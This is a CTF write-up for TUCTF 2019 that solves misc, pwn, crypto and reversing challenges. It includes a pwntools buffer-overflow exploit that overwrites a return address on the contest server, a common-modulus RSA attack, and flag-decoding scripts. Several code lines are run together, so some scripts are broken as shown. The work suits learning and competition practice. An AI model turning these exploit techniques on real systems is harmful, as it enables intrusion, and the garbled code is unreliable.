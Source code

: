 # MISC
# Brain Games
I had a hard time automating this since it blacked out my entire terminal, so I just opened python and solved the three tasks quickly.

# Red Yarn
```bash
strings DEBUG.COM | grep "TU"
```
# Super Secret
```basha0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret$ binwalk -e document.odt 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, compressed size: 39, uncompressed size: 39, name: mimetype77            0x4D            Zip archive data, at least v2.0 to extract, name: manifest.rdf
396           0x18C           Zip archive data, at least v2.0 to extract, name: Configurations2/progressbar/
454           0x1C6           Zip archive data, at least v2.0 to extract, name: Configurations2/toolbar/508           0x1FC           Zip archive data, at least v2.0 to extract, name: Configurations2/statusbar/
564           0x234           Zip archive data, at least v2.0 to extract, name: Configurations2/toolpanel/
620           0x26C           Zip archive data, at least v2.0 to extract, name: Configurations2/popupmenu/676           0x2A4           Zip archive data, at least v2.0 to extract, name: Configurations2/images/Bitmaps/
737           0x2E1           Zip archive data, at least v2.0 to extract, name: Configurations2/accelerator/795           0x31B           Zip archive data, at least v2.0 to extract, name: Configurations2/floater/
849           0x351           Zip archive data, at least v2.0 to extract, name: Configurations2/menubar/
903           0x387           Zip archive data, at least v2.0 to extract, name: content.xml2097          0x831           Zip archive data, at least v2.0 to extract, name: styles.xml
4206          0x106E          Zip archive data, at least v2.0 to extract, name: meta.xml
4714          0x126A          Zip archive data, at least v2.0 to extract, name: Basic/Standard/flag.xml
5051          0x13BB          Zip archive data, at least v2.0 to extract, name: Basic/Standard/script-lb.xml
5337          0x14D9          Zip archive data, at least v2.0 to extract, name: Basic/script-lc.xml
5613          0x15ED          Zip archive data, at least v2.0 to extract, name: settings.xml
7356          0x1CBC          Zip archive data, at least v2.0 to extract, compressed size: 3983, uncompressed size: 3983, name: Thumbnails/thumbnail.png
11393         0x2C81          Zip archive data, at least v2.0 to extract, name: META-INF/manifest.xml
13126         0x3346          End of Zip archive, footer length: 22

a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret$ cd _document.odt.extracted/
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted$ ls
0.zip  Configurations2  manifest.rdf  meta.xml  settings.xml  Thumbnails
Basic  content.xml      META-INF      mimetype  styles.xml
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted$ cd Basic/Standard/
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ ls
flag.xml  script-lb.xml
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ strings flag.xml | grep "TU"
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ 
```
	
# PWN
# Run Me
Just run the binary

# Thefirst
Buffer Overflow and rewrite the return address
```python
from pwn import * 
pad = "A" * 24
add = p32(0x080491f6)r = remote('chal.tuctf.com',30508)
r.sendline(pad+add)
r.interactive()
```


# CRYPTO
# Sonic
In this challenge we NC and a presented with an ASCII sonic and are to decrypt the given ciphertext in under a few seconds. After I realized they were applying a rotation of the alphabet by some number n, I decided to brute force all permutations and then used PyEnchant to check if a permutation was a word in the English language if it was I sent it over. 
```python
#!/usr/bin/python3
from pwn import *import enchant

d = enchant.Dict("en_US")
#r = remote('chal.tuctf.com', 30100)
#s = r.recv()
#print(s)s = 'pmttw'

def rot_alpha(n):    from string import ascii_lowercase as lc, ascii_uppercase as uc    lookup = str.maketrans(lc + uc, lc[n:] + lc[:n] + uc[n:] + uc[:n])
    return lambda s: s.translate(lookup)
for i in range(1,25):    if(d.check(rot_alpha(i)(s))):
        #r.sendline(rot_alpha(i)(s))
        print(rot_alpha(i)(s))
```

# Warren
This challenge provides five different ciphertexts using the following methods: baconian, caesar, vigenere, atbash, and affine. Since these did not change each you connected I solved statically and submitted. The only difficult part was vigenere since we did not know the key, but I used dcode and provided a known portion of the plaintext to be vigenere since it followed as a pattern in the previous messages.

# Something in Common
The given information shows two ciphertext, two public keys, and a single common modulus. With this information we can apply bezout's identity using the extended euclidean algorithm. Which states that there are two coefficients, which we can call a and b, such that a * e1 + b * e2 = gcd(e1,e2). We also know that the gcd of our public keys, 13 and 15, is 1 since they are coprime. 
```python
from fractions import gcd
n = 5196832088920565976847626600109930685983685377698793940303688567224093844213838345196177721067370218315332090523532228920532139397652718602647376176214689

e1 = 15
e2 = 13

c1 = 2042084937526293083328581576825435106672034183860987592520636048680382212041801675344422421233222921527377650749831658168085014081281116990629250092000069

c2 = 199621218068987060560259773620211396108271911964032609729865342591708524675430090445150449567825472793342358513366241310112450278540477486174011171344408
def egcd(a, b):
    if a == 0:        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise ValueError('Modular inverse does not exist.')
    else:
        return x % m

def attack(c1, c2, e1, e2, N):
    if gcd(e1, e2) != 1:
        raise ValueError("Exponents e1 and e2 must be coprime")
    s1 = modinv(e1,e2)
    s2 = (gcd(e1,e2) - e1 * s1) / e2
    temp = modinv(c2, N)
    m1 = pow(c1,s1,N)
    m2 = pow(temp,-s2,N)
    return (m1 * m2) % N


def main():
    try:
        message = attack(c1, c2, e1, e2, n)
        print '\nPlaintext message:\n%s' % format(message, 'x').decode('hex')
    except Exception as e:
        print e.message

main()
```
	
# REVERSING
# faker
The challenge provides a menu where we can decrypt three fake flags. Opening in Ghidra we find the decryption function and decompile it. Replicating this in python we can take the actual encrypted flag from memory and decrypt it using the following:
```
def printFlag(s):
   o = ''
   for i in range(len(s)):
       o += chr(((((ord(s[i]) ^ 0xf) - 0x1d) * 8) % 0x5f) + ord(' '))
   return o
   
if __name__ == '__main__':
    s = "\\PJ\\fC|)L0LTw@Yt@;Twmq0Lw|qw@w2$a@0;w|)@awmLL|Tw|)LwZL2lhhL0k"
    print(printFlag(s))
```
# core
Given a core dump I look for where the binary is ran and then for its subsequent output. The given .c shows they XOR the flag with 1 and output it. To easily find its output we can use the known flag format ```TUCTF{}```, we can find T ^ 1 to be U, which means ```UTBUGzb1s2^etlq>^O2w2s^i25se^1g^x1t|``` is our encrypted flag.

```python
s = 'UTBUGzb1s2^etlq>^O2w2s^i25se^1g^x1t|'
o=''
for i in range(len(s)):
    o += chr(ord(s[i]) ^ 1)
print(o)
```

	
